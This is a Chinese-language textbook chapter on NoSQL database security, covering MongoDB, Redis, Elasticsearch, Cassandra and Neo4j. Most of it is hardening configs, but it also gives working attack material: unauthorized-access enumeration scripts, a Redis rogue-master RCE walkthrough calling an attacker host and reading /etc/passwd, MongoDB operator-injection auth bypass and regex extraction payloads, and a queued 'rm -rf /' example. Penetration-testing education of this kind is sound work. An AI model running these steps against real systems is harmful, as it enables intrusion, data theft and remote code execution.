



## 2. NoSQL数据库基础

> NoSQL（Not Only SQL）数据库是为应对大规模数据、高并发访问和灵活数据模型而生的非关系型数据库。与关系型数据库不同，NoSQL数据库放弃了严格的ACID事务和固定的表结构，转而在可扩展性、性能和灵活性上做取舍。理解NoSQL数据库的架构和安全模型，是攻防实战中不可或缺的基础能力——大量互联网企业的核心业务运行在MongoDB、Redis、Elasticsearch等NoSQL数据库之上，而这些数据库的安全配置错误率远高于传统关系型数据库。

### 2.1 NoSQL数据库分类与选型

NoSQL数据库并非单一产品，而是一个庞大的技术家族。按数据模型划分，主要分为四大类：



| 类型 | 数据模型 | 典型产品 | 适用场景 | 安全关注点 |
|------|----------|----------|----------|------------|
| 文档型 | JSON/BSON文档，嵌套结构 | MongoDB, CouchDB | 内容管理、用户画像、日志 | 认证绕过、注入攻击、未授权访问 |
| 键值型 | 简单的key-value对 | Redis, Memcached, DynamoDB | 缓存、会话、排行榜 | 未授权访问、命令注入、RCE |
| 列族型 | 按列族存储的宽表 | Cassandra, HBase | 时序数据、物联网、推荐系统 | CQL注入、权限模型薄弱 |
| 图数据库 | 节点+边的图结构 | Neo4j, Neptune | 社交网络、知识图谱、反欺诈 | Cypher注入、遍历攻击 |

从攻击面角度看，**文档型和键值型数据库是渗透测试中最常遇到的目标**，因为它们在Web应用中的部署量最大，且默认安全配置往往较弱。

### 2.2 MongoDB架构与安全模型

MongoDB是目前最流行的文档型数据库，以BSON（Binary JSON）格式存储数据。理解其架构是进行安全分析的前提。

#### 2.2.1 核心架构



MongoDB采用BSON格式存储文档，支持嵌套文档和数组。一个典型的文档结构：

```javascript
// MongoDB文档示例 - BSON格式
{
    _id: ObjectId("507f1f77bcf86cd799439011"),  // 自动生成的唯一标识符
    username: "admin",
    password: "$2b$10$hashed_password_here",      // bcrypt哈希
    email: "admin@example.com",
    roles: ["admin", "user"],
    profile: {
        name: "Administrator",
        age: 30,
        address: {
            city: "Beijing",
            district: "Haidian"
        }
    },
    login_history: [
        { ip: "192.168.1.100", time: ISODate("2026-06-25T10:00:00Z") },
        { ip: "10.0.0.50", time: ISODate("2026-06-24T08:30:00Z") }
    ],
    createdAt: ISODate("2026-01-15T00:00:00Z"),
    updatedAt: ISODate("2026-06-25T10:00:00Z")
}
```

#### 2.2.2 认证与授权机制

MongoDB的认证体系经历了多个版本的演进，从早期的无认证默认配置到SCRAM-SHA-256：

**认证机制：**

| 机制 | 版本支持 | 安全强度 | 说明 |
|------|----------|----------|------|
| SCRAM-SHA-256 | 4.0+ | 强 | 默认机制，基于挑战-响应，密码不传输 |
| SCRAM-SHA-1 | 3.0+ | 中 | 旧版默认，SHA-1碰撞风险 |
| x.509证书 | 2.6+ | 强 | 基于TLS客户端证书认证 |
| LDAP | Enterprise | 强 | 对接企业目录服务 |
| Kerberos | Enterprise | 强 | 对接企业SSO |

**内置角色体系：**

```javascript
// MongoDB内置角色层级（从高到低）
// 超级管理员角色
db.createUser({
    user: "superadmin",
    pwd: "secure_password_here",
    roles: [
        { role: "root", db: "admin" }               // 最高权限
    ]
});

// 用户管理员
db.createUser({
    user: "useradmin",
    pwd: "another_secure_password",
    roles: [
        { role: "userAdminAnyDatabase", db: "admin" } // 管理所有数据库用户
    ]
});

// 数据库级别读写
db.createUser({
    user: "appuser",
    pwd: "app_password",
    roles: [
        { role: "readWrite", db: "myapp" }           // 只对myapp数据库读写
    ]
});

// 只读用户
db.createUser({
    user: "readonly_user",
    pwd: "readonly_password",
    roles: [
        { role: "read", db: "myapp" }                // 只读
    ]
});
```

**角色权限矩阵：**

| 角色 | 读 | 写 | 用户管理 | 索引管理 | 服务器管理 | 适用场景 |
|------|----|----|----------|----------|------------|----------|
| read | ✅ | ❌ | ❌ | ❌ | ❌ | 报表、分析 |
| readWrite | ✅ | ✅ | ❌ | ❌ | ❌ | 应用程序 |
| dbAdmin | ❌ | ❌ | ❌ | ✅ | ❌ | DBA运维 |
| userAdmin | ❌ | ❌ | ✅ | ❌ | ❌ | 用户管理 |
| readWriteAnyDatabase | ✅ | ✅ | ❌ | ❌ | ❌ | 跨库应用 |
| root | ✅ | ✅ | ✅ | ✅ | ✅ | 超级管理员 |

#### 2.2.3 MongoDB常见安全威胁

**（1）未授权访问（默认无认证）**

MongoDB 2.6及更早版本默认不启用认证，且绑定所有网络接口。这导致互联网上存在大量未授权访问的MongoDB实例。攻击者可以直接连接并读取、修改、删除所有数据。

```bash
# 检测MongoDB未授权访问
# 方法1：使用mongosh直接连接
mongosh --host <target_ip> --port 27017

# 方法2：使用nmap扫描
nmap -sV -p 27017 <target_ip>
# 输出: 27017/tcp open mongodb MongoDB 5.0.x

# 方法3：使用Python检测
python3 -c "
from pymongo import MongoClient
try:
    client = MongoClient('<target_ip>', 27017, serverSelectionTimeoutMS=5000)
    db_list = client.list_database_names()
    print(f'[+] 未授权访问! 数据库列表: {db_list}')
    for db_name in db_list:
        db = client[db_name]
        collections = db.list_collection_names()
        print(f'    数据库 {db_name} 包含集合: {collections}')
except Exception as e:
    print(f'[-] 连接失败: {e}')
"
```

**（2）默认配置风险清单**

| 风险项 | 默认值 | 安全值 | 影响 |
|--------|--------|--------|------|
| bindIp | 0.0.0.0（所有接口） | 127.0.0.1 | 网络暴露 |
| authentication | 关闭 | 启用 | 未授权访问 |
| authorization | 关闭 | 启用 | 权限泛滥 |
| TLS | 关闭 | 启用 | 数据窃听 |
| 日志审计 | 关闭 | 启用 | 无法追溯 |
| JavaScript执行 | 启用 | 禁用 | 服务器端注入 |

#### 2.2.4 MongoDB安全加固

```javascript
// ==========================================
// MongoDB安全加固完整流程
// ==========================================

// 步骤1：创建管理员账户（在启用认证之前完成）
use admin
db.createUser({
    user: "siteUserAdmin",
    pwd: "Complexyour_password!",
    roles: [{ role: "userAdminAnyDatabase", db: "admin" }]
});

// 步骤2：创建应用专用账户（最小权限原则）
use myapp
db.createUser({
    user: "myapp_svc",
    pwd: "AppSp3cificP@ss!",
    roles: [
        { role: "readWrite", db: "myapp" },
        { role: "read", db: "logs" }
    ]
});

// 步骤3：启用审计日志（Enterprise或4.4+社区版）
// mongod.conf 配置：
// auditLog:
//   destination: file
//   format: JSON
//   path: /var/log/mongodb/audit.json
```

```bash
# 步骤4：配置文件加固 /etc/mongod.conf
cat > /etc/mongod.conf << 'EOF'
# 网络绑定 - 仅本地和内网
net:
  bindIp: 127.0.0.1,10.0.0.1
  port: 27017
  tls:
    mode: requireTLS
    certificateKeyFile: /etc/ssl/mongodb.pem
    CAFile: /etc/ssl/ca.pem

# 启用认证
security:
  authorization: enabled
  javascriptEnabled: false    # 禁用服务器端JS执行

# 日志配置
systemLog:
  destination: file
  path: /var/log/mongodb/mongod.log
  logAppend: true
  logRotate: reopen

# 操作日志
operationProfiling:
  mode: slowOp
  slowOpThresholdMs: 100

# 存储引擎
storage:
  dbPath: /var/lib/mongodb
  journal:
    enabled: true
EOF

# 步骤5：重启服务并验证认证生效
sudo systemctl restart mongod

# 步骤6：验证认证
mongosh --host 127.0.0.1 -u siteUserAdmin -p 'Complexyour_password!' --authenticationDatabase admin
```

### 2.3 Redis架构与安全模型

Redis是一个开源的内存键值数据库，以其极高的读写性能著称。它广泛用作缓存、消息队列、会话存储和实时排行榜。但Redis的默认安全配置极其薄弱，是渗透测试中最高频的目标之一。

#### 2.3.1 核心架构



**Redis的关键架构特征：**

- **单线程模型**：命令执行是单线程的（6.0+引入多线程IO），这简化了并发控制但也意味着一个慢命令会阻塞所有请求
- **内存优先**：所有数据驻留在内存中，读写延迟在微秒级
- **丰富的数据结构**：不仅仅是简单的key-value，还支持哈希、列表、集合、有序集合等
- **持久化可选**：RDB快照和AOF日志两种持久化方式，可单独或混合使用

#### 2.3.2 数据类型与安全含义

Redis的数据类型决定了攻击面的不同形态：

```bash
# ==========================================
# Redis五种基础数据类型 + 安全分析
# ==========================================

# 1. String（字符串）- 最基础的类型
# 安全风险：可用于存储敏感配置、缓存的会话数据
SET session:abc123 '{"user_id":1,"role":"admin"}'
SET config:db_password "root123"           # 敏感配置泄露
GET config:db_password

# 2. Hash（哈希）- 对象存储
# 安全风险：存储用户信息、配置项，可批量导出
HSET user:1 username "admin" password "hashed" email "admin@site.com" role "admin"
HGETALL user:1                             # 导出全部字段
HGET user:1 password                       # 直接获取密码

# 3. List（列表）- 消息队列、时间线
# 安全风险：可用于注入恶意消息、篡改队列
LPUSH queue:tasks '{"cmd":"rm -rf /"}'     # 注入恶意任务
LRANGE queue:tasks 0 -1                    # 读取全部任务

# 4. Set（集合）- 去重存储
# 安全风险：存储权限列表、IP白名单
SADD acl:admin_ips "192.168.1.100"
SADD acl:admin_ips "10.0.0.1"              # 注入恶意IP
SMEMBERS acl:admin_ips                     # 列出所有IP

# 5. Sorted Set（有序集合）- 排行榜、延迟队列
# 安全风险：可篡改排名、插入恶意任务
ZADD leaderboard 999999 "attacker"         # 篡改排行榜分数
ZRANGE leaderboard 0 -1 WITHSCORES        # 查看排名

# 高级数据类型
# 6. Stream（5.0+）- 消息流
XADD mystream * event "login" user "admin"
XREAD COUNT 10 STREAMS mystream 0

# 7. Geo（地理位置）
GEOADD locations 116.397128 39.916527 "beijing"
GEORADIUS locations 116.39 39.91 10 km     # 查询附近位置（隐私风险）

# 8. Bitmap（位图）
SETBIT login:2026-06-25 1001 1             # 记录用户1001今天登录
BITCOUNT login:2026-06-25                  # 统计今天登录人数
```

#### 2.3.3 Redis的"默认无认证"问题

Redis在6.0之前默认不设置密码，且绑定所有网络接口。这是一个极其严重的安全隐患：

```bash
# ==========================================
# Redis未授权访问攻击流程
# ==========================================

# 步骤1：发现Redis服务
nmap -sV -p 6379 --script redis-info <target>
# 输出示例：
# PORT     STATE SERVICE VERSION
# 6379/tcp open  redis   Redis key-value store 6.2.6
# | redis-info:
# |   Version: 6.2.6
# |   Mode: standalone
# |   Connected_clients: 1
# |   Authentication: disabled    <-- 关键信息

# 步骤2：直接连接
redis-cli -h <target_ip>
> INFO server              # 获取服务器信息
> CONFIG GET dir            # 获取数据目录
> CONFIG GET dbfilename     # 获取RDB文件名
> DBSIZE                    # 查看键数量
> KEYS *                    # 列出所有键（生产环境慎用，会阻塞）

# 步骤3：信息收集
> INFO all                  # 获取全部服务器信息
> CONFIG GET requirepass    # 检查是否设置了密码
> CONFIG GET bind           # 检查绑定地址
> CONFIG GET protected-mode # 检查保护模式
> CLIENT LIST               # 查看连接的客户端
> SLOWLOG GET 10            # 查看慢查询日志
```

**Redis未授权访问的攻击向量：**

| 攻击方式 | 原理 | 危害等级 | 利用条件 |
|----------|------|----------|----------|
| 写入WebShell | 通过CONFIG SET dir设置Web目录，CONFIG SET dbfilename设置文件名，SET写入内容 | 严重 | 目标有Web服务且Redis可写目录 |
| 写入SSH公钥 | CONFIG SET dir到~/.ssh/，CONFIG SET dbfilename为authorized_keys | 严重 | redis用户有~/.ssh目录 |
| 写入Crontab | CONFIG SET dir到/var/spool/cron/，CONFIG SET dbfilename为root | 严重 | 系统使用crontab |
| 主从复制RCE | 通过主从复制加载恶意.so模块执行命令 | 严重 | Redis 4.x/5.x |
| 数据窃取 | 直接读取所有缓存数据、会话信息 | 高 | 所有未授权实例 |
| 服务拒绝 | DEBUG SLEEP、KEYS *、大key写入 | 中 | 所有未授权实例 |

#### 2.3.4 Redis安全加固

```bash
# ==========================================
# Redis安全加固完整方案
# ==========================================

# redis.conf 关键安全配置项
cat > /etc/redis/redis.conf << 'EOF'

# === 网络安全 ===
# 绑定地址 - 仅本地和可信内网
bind 127.0.0.1 10.0.0.1

# 保护模式 - 无密码时拒绝外部连接（6.0+默认开启）
protected-mode yes

# 修改默认端口（可选，增加一层混淆）
port 6380

# TCP backlog
tcp-backlog 511

# 超时设置（秒）- 0表示不超时
timeout 300

# TCP keepalive
tcp-keepalive 60

# === 认证 ===
# 设置密码（ACL方式，6.0+）
# requirepass 已弃用，使用ACL替代
user default off                                    # 禁用默认用户
user admin on >Complexyour_password! ~* &* +@all        # 管理员全权限
user app_user on >AppSp3cP@ss! ~app:* &10.0.0.0/24 +@read +@write +@set
user readonly on >R3ad0nly! ~* &10.0.0.0/24 +@read

# 旧版密码方式（<6.0）
# requirepass YourStrongPassword123!

# === 命令安全 ===
# 禁用/重命名危险命令
rename-command FLUSHDB ""           # 禁用
rename-command FLUSHALL ""          # 禁用
rename-command DEBUG ""             # 禁用
rename-command SHUTDOWN ""          # 禁用
rename-command CONFIG "CONFIG_a8f3e2b1"  # 重命名
rename-command KEYS "KEYS_d7c4f1a9"      # 重命名
rename-command SAVE ""              # 禁用
rename-command BGSAVE ""            # 禁用

# === TLS加密（6.0+）=== 
tls-port 6380
tls-cert-file /etc/ssl/redis/server.crt
tls-key-file /etc/ssl/redis/server.key
tls-ca-cert-file /etc/ssl/redis/ca.crt
tls-auth-clients yes                # 要求客户端证书

# === 日志 ===
loglevel notice
logfile /var/log/redis/redis.log

# === 内存安全 ===
maxmemory 2gb
maxmemory-policy allkeys-lru        # 内存满时驱逐策略

# === 禁用Lua脚本危险操作 ===
# 注意：lua-time-limit 默认5000ms，设为0禁用Lua超时
lua-time-limit 5000

EOF

# 验证配置
redis-cli -h 127.0.0.1 -p 6380 -a 'Complexyour_password!' CONFIG GET bind
redis-cli -h 127.0.0.1 -p 6380 -a 'Complexyour_password!' ACL LIST
```

### 2.4 其他NoSQL数据库安全要点

#### 2.4.1 Elasticsearch

Elasticsearch是基于Lucene的全文搜索引擎，在日志分析和搜索场景中广泛部署。从7.1版本开始内置安全特性，但早期版本的安全问题极为突出。

```bash
# Elasticsearch安全检测
# 检测未授权访问
curl -s "http://<target>:9200/" | jq .
# 响应中包含版本、集群名等信息说明未授权访问

curl -s "http://<target>:9200/_cat/indices?v"      # 列出所有索引
curl -s "http://<target>:9200/_cat/nodes?v"         # 列出所有节点
curl -s "http://<target>:9200/_cluster/health"      # 集群健康状态
curl -s "http://<target>:9200/_cat/shards?v"        # 分片信息

# 搜索敏感数据
curl -s "http://<target>:9200/<index>/_search?q=password&size=10"
curl -s "http://<target>:9200/<index>/_search?q=email&size=10"

# 搜索包含"user"或"admin"的索引
curl -s "http://<target>:9200/_cat/indices?v" | grep -iE "user|admin|customer|log"
```

**Elasticsearch安全加固要点：**

```yaml
# elasticsearch.yml 安全配置
cluster.name: production-cluster
network.host: 127.0.0.1
http.port: 9200

# 启用X-Pack安全（7.1+免费版支持基础安全）
xpack.security.enabled: true
xpack.security.transport.ssl.enabled: true
xpack.security.transport.ssl.verification_mode: certificate
xpack.security.transport.ssl.keystore.path: certs/elastic-certificates.p12
xpack.security.transport.ssl.truststore.path: certs/elastic-certificates.p12
xpack.security.http.ssl.enabled: true
xpack.security.http.ssl.keystore.path: certs/http.p12

# 匿名访问控制
xpack.security.authc.anonymous.roles: []
xpack.security.authc.anonymous.authz_exception: true
```

#### 2.4.2 Cassandra

Apache Cassandra是分布式列族数据库，适用于需要高可用和线性扩展的场景。其安全模型与传统数据库差异较大。

```sql
-- Cassandra认证与授权（CQL）

-- 创建超级用户
CREATE ROLE admin WITH PASSWORD = 'SecureP@ss!' 
    AND LOGIN = true 
    AND SUPERUSER = true;

-- 创建普通用户
CREATE ROLE app_user WITH PASSWORD = 'AppP@ss!' 
    AND LOGIN = true 
    AND SUPERUSER = false;

-- 授权（注意：Cassandra使用RBAC但不支持行级安全）
GRANT SELECT ON KEYSPACE myapp TO app_user;
GRANT MODIFY ON KEYSPACE myapp TO app_user;

-- 审计权限
GRANT DESCRIBE ON ALL KEYSPACES TO auditor;

-- cassandra.yaml 安全配置
-- authenticator: PasswordAuthenticator     # 默认AllowAllAuthenticator
-- authorizer: CassandraAuthorizer          # 默认AllowAllAuthorizer
-- server_encryption_options:
--     internode_encryption: all
--     keystore: /etc/cassandra/keystore.jks
--     truststore: /etc/cassandra/truststore.jks
```

**Cassandra安全弱点：**
- 默认认证器为 `AllowAllAuthenticator`，无认证
- 默认授权器为 `AllowAllAuthorizer`，无权限控制
- 不支持行级安全（RLS），只能控制到表级别
- JMX端口（默认7199）常暴露且无认证

#### 2.4.3 Neo4j图数据库

```cypher
// Neo4j安全配置

// 创建用户
CALL dbms.security.createUser('analyst', 'password123', false);

// 创建角色
CALL dbms.security.createRole('reader');
CALL dbms.security.addRoleToUser('reader', 'analyst');

// Cypher注入示例（类似SQL注入）
// 漏洞代码：
MATCH (u:User {name: '" + userInput + "'}) RETURN u
// 攻击输入：
" OR 1=1 RETURN u //
// 实际执行：
MATCH (u:User {name: "" OR 1=1 RETURN u //'}) RETURN u

// 防御：使用参数化查询
MATCH (u:User {name: $name}) RETURN u
```

### 2.5 NoSQL数据库安全审计方法论

对NoSQL数据库进行安全审计需要系统化的方法，以下是一个可复用的审计框架：

```mermaid
graph LR
    subgraph PHASE1["阶段1：发现"]
        SCAN["端口扫描<br/>nmap · masscan"]
        FINGER["指纹识别<br/>服务版本"]
        ENUM["信息枚举<br/>数据库列表"]
    end
    subgraph PHASE2["阶段2：评估"]
        AUTH["认证测试<br/>默认密码 · 空密码"]
        PERM["权限检查<br/>最小权限原则"]
        CONF["配置审计<br/>安全基线对比"]
    end
    subgraph PHASE3["阶段3：利用"]
        DATA["数据访问<br/>敏感数据读取"]
        INJECT["注入攻击<br/>NoSQL注入"]
        RCE["远程执行<br/>写文件 · 加载模块"]
    end
    subgraph PHASE4["阶段4：加固"]
        FIX["配置修复<br/>认证 · 加密"]
        MONITOR["监控部署<br/>审计日志"]
        VERIFY["验证测试<br/>回归验证"]
    end

    PHASE1 --> PHASE2 --> PHASE3 --> PHASE4

    style PHASE1 fill:#e3f2fd,stroke:#1565c0
    style PHASE2 fill:#fff3e0,stroke:#ff9800
    style PHASE3 fill:#ffcdd2,stroke:#e53935
    style PHASE4 fill:#e8f5e9,stroke:#43a047
```



**常用审计工具：**

| 工具 | 支持数据库 | 功能 | 命令示例 |
|------|------------|------|----------|
| nmap + NSE脚本 | MongoDB, Redis, ES等 | 端口扫描、服务识别 | `nmap -p 27017 --script mongodb-info <target>` |
| redis-cli | Redis | 连接、命令执行 | `redis-cli -h <target> INFO` |
| mongosh | MongoDB | 连接、查询执行 | `mongosh --host <target> --eval "db.adminCommand('listDatabases')"` |
| NoSQLMap | MongoDB | 自动化漏洞检测 | `nosqlmap -t <target>` |
| Metasploit | MongoDB, Redis | 模块化利用 | `use auxiliary/scanner/mongodb/mongodb_login` |
| Burp Suite | 所有Web接口 | HTTP请求拦截与注入 | 配合NoSQL注入Payload |

**自动化审计脚本示例：**

```bash
#!/bin/bash
# NoSQL数据库安全审计脚本
# 用法: ./nosql_audit.sh <target_ip>

TARGET=$1
REPORT="audit_$(date +%Y%m%d_%H%M%S).txt"

echo "========================================" | tee $REPORT
echo "NoSQL安全审计报告 - $TARGET" | tee -a $REPORT
echo "时间: $(date)" | tee -a $REPORT
echo "========================================" | tee -a $REPORT

# MongoDB检测 (27017)
echo -e "\n[*] 检测 MongoDB (27017)..." | tee -a $REPORT
if nc -zw3 $TARGET 27017 2>/dev/null; then
    echo "[!] MongoDB端口开放" | tee -a $REPORT
    python3 -c "
from pymongo import MongoClient
try:
    c = MongoClient('$TARGET', 27017, serverSelectionTimeoutMS=3000)
    dbs = c.list_database_names()
    print(f'[!!] 未授权访问! 数据库: {dbs}')
    for db in dbs:
        cols = c[db].list_collection_names()
        print(f'     {db}: {len(cols)} 集合 -> {cols[:5]}')
except Exception as e:
    print(f'[-] 需要认证: {e}')
" 2>/dev/null | tee -a $REPORT
else
    echo "[-] MongoDB端口未开放" | tee -a $REPORT
fi

# Redis检测 (6379)
echo -e "\n[*] 检测 Redis (6379)..." | tee -a $REPORT
if nc -zw3 $TARGET 6379 2>/dev/null; then
    echo "[!] Redis端口开放" | tee -a $REPORT
    INFO=$(redis-cli -h $TARGET INFO server 2>/dev/null)
    if echo "$INFO" | grep -q "redis_version"; then
        VERSION=$(echo "$INFO" | grep redis_version | cut -d: -f2 | tr -d '\r')
        echo "[!!] 未授权访问! 版本: $VERSION" | tee -a $REPORT
        DBSIZE=$(redis-cli -h $TARGET DBSIZE 2>/dev/null)
        echo "     $DBSIZE" | tee -a $REPORT
        # 检查危险配置
        REQUIREPASS=$(redis-cli -h $TARGET CONFIG GET requirepass 2>/dev/null | tail -1)
        BIND=$(redis-cli -h $TARGET CONFIG GET bind 2>/dev/null | tail -1)
        echo "     requirepass: '$REQUIREPASS'" | tee -a $REPORT
        echo "     bind: $BIND" | tee -a $REPORT
    else
        echo "[-] Redis需要认证" | tee -a $REPORT
    fi
else
    echo "[-] Redis端口未开放" | tee -a $REPORT
fi

# Elasticsearch检测 (9200)
echo -e "\n[*] 检测 Elasticsearch (9200)..." | tee -a $REPORT
if nc -zw3 $TARGET 9200 2>/dev/null; then
    echo "[!] ES端口开放" | tee -a $REPORT
    ES_INFO=$(curl -s --connect-timeout 3 "http://$TARGET:9200/" 2>/dev/null)
    if echo "$ES_INFO" | grep -q "version"; then
        echo "[!!] 未授权访问!" | tee -a $REPORT
        curl -s "http://$TARGET:9200/_cat/indices?v" 2>/dev/null | head -20 | tee -a $REPORT
    fi
else
    echo "[-] ES端口未开放" | tee -a $REPORT
fi

echo -e "\n========================================" | tee -a $REPORT
echo "审计完成。报告: $REPORT" | tee -a $REPORT
```

### 2.6 NoSQL vs 关系型数据库安全对比

理解NoSQL和关系型数据库在安全层面的差异，有助于选择正确的攻击策略和防御方案：

| 安全维度 | 关系型数据库（MySQL/PostgreSQL） | NoSQL（MongoDB/Redis） |
|----------|----------------------------------|------------------------|
| **认证机制** | 成熟，用户名+密码+主机 | 参差不齐，部分默认无认证 |
| **授权粒度** | 表/列/行/视图级别 | 粗粒度，通常只到数据库/集合 |
| **注入类型** | SQL注入（字符串拼接） | 操作符注入、类型混淆、JS注入 |
| **注入防御** | 参数化查询成熟 | 部分驱动不支持参数化 |
| **加密传输** | TLS支持成熟 | TLS支持较晚（Redis 6.0+） |
| **审计日志** | 内置审计插件 | 部分需商业版或第三方 |
| **默认安全** | 较好（需设置root密码） | 较差（大量默认无认证） |
| **攻击复杂度** | 需要SQL知识 | 通常更简单，直接连接即可 |
| **数据模型安全** | 固定Schema约束 | 灵活Schema反成攻击面 |

### 2.7 常见误区与纠正

**误区1：NoSQL不会被注入攻击**
> 事实：NoSQL注入的攻击面甚至比SQL注入更广。MongoDB支持 `$ne`、`$gt`、`$regex`、`$where` 等操作符，攻击者可以通过类型混淆（传入对象而非字符串）绕过认证。Redis可以通过命令注入执行任意操作。详见本章核心技巧部分的NoSQL注入专题。

**误区2：内网数据库不需要安全加固**
> 事实：内网渗透（横向移动）后，未加固的数据库是最容易被利用的跳板。大量APT攻击利用内网数据库进行数据窃取和持久化。

**误区3：Redis只是缓存，不存储敏感数据**
> 事实：Redis常用于存储会话Token、用户配置、API密钥甚至明文密码。攻击者获取Redis访问权后，可以通过 `KEYS *` 和 `SCAN` 命令枚举所有数据。

**误区4：设置了requirepass就安全了**
> 事实：密码认证只是安全体系的一环。还需要考虑：网络隔离、TLS加密、命令限制、审计日志、定期轮换密码。弱密码可以通过字典攻击破解。

**误区5：MongoDB 3.0+默认安全**
> 事实：虽然MongoDB 3.0+引入了SCRAM认证，但在很多Linux发行版的包管理器安装中，仍然默认不创建管理员账户。Docker镜像中的MongoDB同样默认无认证。

### 2.8 进阶：NoSQL数据库攻防实战场景

**场景1：Redis主从复制RCE（CVE相关）**

Redis 4.x/5.x存在通过主从复制加载恶意模块实现远程命令执行的攻击方式：

```bash
# 利用redis-rogue-server工具
# 原理：攻击者搭建恶意Redis主节点，让目标Redis成为从节点，通过全量同步加载恶意.so模块
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server
python3 redis-rogue-server.py --rhost <target_ip> --lhost <attacker_ip>

# 利用RedisModules-ExecuteCommand
# 编译恶意模块
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make

# 手动利用步骤：
# 1. 连接目标Redis
redis-cli -h <target>
# 2. 创建恶意模块目录同步
CONFIG SET dir /tmp/
CONFIG SET dbfilename exp.so
# 3. 通过主从复制加载模块
SLAVEOF <attacker_ip> 6379
# 4. 加载模块并执行命令
MODULE LOAD /tmp/exp.so
system.exec "id"
system.exec "cat /etc/passwd"
```

**场景2：MongoDB注入组合拳**

```javascript
// 综合利用：认证绕过 + 数据提取 + 权限提升
// 步骤1：认证绕过（操作符注入）
POST /login HTTP/1.1
Content-Type: application/json

{
    "username": "admin",
    "password": {"$gt": ""}
}

// 步骤2：使用$where进行条件布尔盲注
GET /api/users?search={"$where":"if(this.password.match(/^a/))sleep(5000)"} HTTP/1.1

// 步骤3：利用$regex进行数据逐字符提取
GET /api/users?filter={"password":{"$regex":"^a"}} HTTP/1.1
GET /api/users?filter={"password":{"$regex":"^ad"}} HTTP/1.1
// 逐步匹配直到获取完整密码哈希
```

### 2.9 本节小结

NoSQL数据库的普及带来了新的安全挑战。与关系型数据库相比，NoSQL数据库在默认安全配置、认证授权粒度、注入防御成熟度等方面存在明显短板。作为安全从业者，需要掌握：

1. **识别能力**：能快速判断目标使用的NoSQL数据库类型和版本
2. **检测能力**：能系统化地审计NoSQL数据库的安全配置
3. **利用能力**：掌握未授权访问、注入攻击、RCE等核心攻击手法
4. **防御能力**：能给出完整可行的安全加固方案

